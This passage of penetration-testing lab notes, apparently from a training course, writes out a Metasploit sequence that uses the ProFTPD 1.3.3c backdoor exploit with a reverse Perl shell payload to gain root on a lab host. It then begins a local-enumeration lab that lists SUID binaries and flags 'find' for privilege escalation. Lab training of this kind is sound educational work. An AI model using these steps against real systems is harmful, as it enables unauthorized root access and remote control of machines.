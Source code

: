 **Step 7**.

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.17/16 brd 10.1.255.255 scope global eth0
inet 192.114.85.2/24 brd 192.114.85.255 scope global eth1 ←
```

`search proftpd`, `use exploit/unix/ftp/proftpd_133c_backdoor`, `show options`, `set PAYLOAD /cmd/unix/reverse_perl`, `set RHOSTS demo4.ine.local`, `set LHOST 192.114.85.2`, `exploit`.

`id`:
```
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

---

### Linux Exploitation: Lab 2 - Local Enumeration - Lab

This exercise will help you understand how to perform local enumeration to find misconfigurations that allow an attacker to gain root privileges.

The user will access an Ubuntu instance as a `student` user. We will assume that we have compromised a machine and gained regular user access (`student`).
We need to conduct local enumeration and obtain root access to the machine.

Objective: Find the SUID executables and vulnerable services to gain the root privileges.

The best tools for this lab are:
- Bash Shell
- LinEnum

---

**Step 1A**.

`id`:
```
uid=1001(student) gid=1001(student) groups=1001(student)
```

Let's find all SUID executables.

`find / -type f -perm -4000 2> /dev/null`:
```
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/find ←
```